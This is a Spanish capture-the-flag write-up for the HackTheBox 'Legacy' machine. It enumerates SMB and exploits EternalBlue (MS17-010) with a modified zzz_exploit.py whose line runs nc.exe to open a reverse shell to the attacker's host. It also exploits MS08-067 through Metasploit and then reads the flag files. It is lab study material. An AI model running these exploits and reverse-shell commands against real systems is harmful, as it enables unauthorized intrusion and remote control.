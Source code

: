 # Legacy
<table>
  <tr>
    <td style="vertical-align: top; padding-right: 20px;">
      <img src="portadas/Legacy.png" alt="Imagen" style="max-width:320px; width:100%; height:auto;"/>
    </td>
    <td style="vertical-align: top; padding-left: 20px;">
      <strong>Vulnerabilidades / Características a tratar</strong>
      <ul>
        <li>SMB Enumeration</li>
        <li>EternalBlue Exploitation (MS17-010) [Triple Z Exploit]</li>
        <li>Privilege Escalation post-EternalBlue</li>
      </ul>
    </td>
  </tr>
</table>Eternalblue Exploitation (MS17-010) [Triple Z Exploit]


## Reconocimiento inicial
Realizamos un escaneo de todos los puertos para comprobar cuáles estan abiertos y lo exportamos al fichero `allports` 

```shell
nmap -p- --open -sS --min-rate 5000 -vvv -n -Pn 10.10.10.4 -oG allports
```

```shell
PORT      STATE    SERVICE      REASON
135/tcp   open     msrpc        syn-ack ttl 127
139/tcp   open     netbios-ssn  syn-ack ttl 127
445/tcp   open     microsoft-ds syn-ack ttl 127

```

Vamos a realizar un escaneo más exaustivo de los siguiente puertos encontrados:


```shell
nmap -sCV -p135,139,445 10.10.11.4 -oN targeted
```
vemos como el sistema que nos enfretamos es un windows antiguo por ello vamos a realizar un escaneo aún más concreto buscando las vuulnerabilidades más básicas de windows antiguos como es Eternal blue.

```shell
|_  message_signing: disabled (dangerous, but default)
| smb-os-discovery: 
|   OS: Windows XP (Windows 2000 LAN Manager)
```
Con el siguiente comando hacemos el escaneo :

```shell
nmap -sV -p 135,139,445 --script "smb-enum-shares,smb-enum-users,smb-os-discovery,smb-vuln-ms08-067,smb-vuln-ms17-010,smb-security-mode" 10.10.10.4
```
vemos que la máquina es vulnerable y de varias maneras , voy a explotarlas las dos:

la primera que nos encontramos es :
```shell
Host script results:
| smb-vuln-ms17-010: 
|   VULNERABLE:
|   Remote Code Execution vulnerability in Microsoft SMBv1 servers (ms17-010)
|     State: VULNERABLE
|     IDs:  CVE:CVE-2017-0143
|     Risk factor: HIGH
|       A critical remote code execution vulnerability exists in Microsoft SMBv1
|        servers (ms17-010).
|           
|     Disclosure date: 2017-03-14
```

Y la segunda vulnerabilidad importante que encontramos es :

```shell
smb-vuln-ms08-067: 
|   VULNERABLE:
|   Microsoft Windows system vulnerable to remote code execution (MS08-067)
|     State: VULNERABLE
|     IDs:  CVE:CVE-2008-4250
|           The Server service in Microsoft Windows 2000 SP4, XP SP2 and SP3, Server 2003 SP1 and SP2,
|           Vista Gold and SP1, Server 2008, and 7 Pre-Beta allows remote attackers to execute arbitrary
|           code via a crafted RPC request that triggers the overflow during path canonicalization.
```

## Explotacion CVE-2017-0143

- Qué es: vulnerabilidad de ejecución remota en el servidor SMBv1 de Windows; permite que un atacante envíe paquetes especialmente construidos y ejecute código arbitrario en el equipo objetivo. 

- Sistemas afectados: varias versiones de Windows que soportaban SMBv1 (Windows 7/Server 2008/2012, Windows 8.1, Windows 10, etc.); fue corregida en el boletín MS17-010 publicado el 14 de marzo de 2017. 


- Impacto / contexto histórico: la explotación pública (EternalBlue) filtrada por los Shadow Brokers fue usada por el ransomware WannaCry y otros ataques que causaron infecciones masivas. Esto lo convirtió en un vector crítico de propagación lateral.




Usando el siguiente repositorio:
```shell
https://github.com/worawit/MS17-010
```

Podemos ejecutar el `Eternal blue` para ello modificamos el fichero `zzz_exploit.py` y en ese fichero modificamos la siguiente linea para entablarnos una una shell 

```shell
service_exec (conn,'cmd /c \\10.10.14.9\smbFolder\nc.exe -e cmd 10.10.14.9 443' )
```
Para obtener `nc.exe` se encuentra en el repositorio de las SecList en `/Web-Shells/FuzzDB/nc.ex`

Por otro lado tenemos que compartir el recurso y luego que se sincronice con el directorio actual de trabajo $(pwd)
```shell
smbserver.py smbFolder $(pwd)  
```

Por último por otro lado nos ponemos en escucha por el puerto 443 con `nc` de la siguiente manera para tener una consola interactiva:

```shell
rlwrap nc -nlvp 443
```

Finalmente ejecutamos el código:
```shell
python2 zzz.exploit.py 10.10.10.4 browser
```

Para obtener las flags lo explico en explotando la siguiente vulnerabilidad.


## Explotación CVE-2008-4250

- Vulnerabilidad crítica en el servicio Server de Windows que permitía, mediante un paquete RPC mal formado, provocar un desbordamiento y ejecutar código remoto sin autenticación.

- Afectaba Windows 2000 / XP / Server 2003 (y similares); permitió que gusanos como Conficker se propagaran masivamente.

Para explotarlo de esta manera lo mas fácil es buscar algún exploit existente que nos permita hacerlo, para ellos utilizamos el siguiente comando:

```shell
searchsploit ms08-067
```
y obtenemos los siguientes resultados en lso que existen varios:

```shell
----------------------------------------------------------------------------- ---------------------------------
 Exploit Title                                                               |  Path
----------------------------------------------------------------------------- ---------------------------------
Microsoft Windows - 'NetAPI32.dll' Code Execution (Python) (MS08-067)        | windows/remote/40279.py
Microsoft Windows Server - Code Execution (MS08-067)                         | windows/remote/7104.c
Microsoft Windows Server - Code Execution (PoC) (MS08-067)                   | windows/dos/6824.txt
Microsoft Windows Server - Service Relative Path Stack Corruption (MS08-067) | windows/remote/16362.rb
Microsoft Windows Server - Universal Code Execution (MS08-067)               | windows/remote/6841.txt
Microsoft Windows Server 2000/2003 - Code Execution (MS08-067)               | windows/remote/7132.py
```

En mi caso para probar una alternativa más automatizada he usado `metasploit` esta herramienta vamos poder utilizar los exploit más rápido.

- Cargamos metasploit

```shell
msfconsole
```

Buscamos si existe un POC con la vulnerabilidad
```shell
msf > search ms08-067
```
Encontramos que existe uno por lo tanto vamos a configurarlo y usarlo

```shell
use exploit/windows/smb/ms08_067_netapi
```

Para la configuración utilizamos los siguientes comandos 
```shell
set RHOSTS 10.10.10.4
set LHOST Ip
set PAYLOAD windows/meterpreter/reverse_tcp
check
```
Checkeamos que es vulnerable y vamos a poder entablar la revershell

```shell
[+] 10.10.10.4:445 - The target is vulnerable.
```

Ejecutamos el exploit

```shell
run
```

Obtenemos que la shell se ha podido hacer: 
```shell
[*] Started reverse TCP handler on 10.10.14.9:4444 
[*] 10.10.10.4:445 - Automatically detecting the target...
/usr/share/metasploit-framework/vendor/bundle/ruby/3.3.0/gems/recog-3.1.21/lib/recog/fingerprint/regexp_factory.rb:34: warning: nested repeat operator '+' and '?' was replaced with '*' in regular expression
[*] 10.10.10.4:445 - Fingerprint: Windows XP - Service Pack 3 - lang:English
[*] 10.10.10.4:445 - Selected Target: Windows XP SP3 English (AlwaysOn NX)
[*] 10.10.10.4:445 - Attempting to trigger the vulnerability...
[*] Sending stage (240 bytes) to 10.10.10.4
[*] Command shell session 1 opened (10.10.14.9:4444 -> 10.10.10.4:1032) at 2025-10-10 04:42:42 -0400
Shell Banner:
Microsoft Windows XP [Version 5.1.2600]
(C) Copyright 1985-2001 Microsoft Corp.

C:\WINDOWS\system32>
```

Buscamos las flags como en el caso anterior con los siguientes comandos.

```shell
dir C:\user.txt /s /b
dir C:\root.txt /s /b
```

```shell
C:\Documents and Settings\john\Desktop\user.txt
C:\Documents and Settings\Administrator\Desktop\root.txt
```
Por último las previsualizamos con el comando `type`

```shell
type "C:\Documents and Settings\john\Desktop\user.txt"
type "C:\Documents and Settings\Administrator\Desktop\root.txt"
```
